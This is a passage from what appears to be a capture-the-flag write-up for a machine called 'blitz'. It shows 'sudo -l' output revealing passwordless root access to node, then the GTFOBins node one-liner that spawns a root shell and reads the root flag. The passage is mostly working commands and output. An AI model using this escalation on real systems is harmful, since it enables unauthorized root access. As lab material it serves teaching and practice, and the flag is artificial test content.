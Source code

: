 This essentially means we can bypass repository cloning/pushing steps. 


### Escalating to Root
User node can run /usr/bin/node with sudo. 
```
node@blitz:/home/git/pipeline/staging$ sudo -l
sudo -l
Matching Defaults entries for node on blitz:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User node may run the following commands on blitz:
    (root) NOPASSWD: /usr/bin/node
```

We find an exploit [here](https://gtfobins.github.io/gtfobins/node/).

```
node@blitz:/home/git/pipeline/staging$ whoami
whoami
node
node@blitz:/home/git/pipeline/staging$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'  
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'  
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
ICSD{e12fbea175412c69961926bd42431596}
```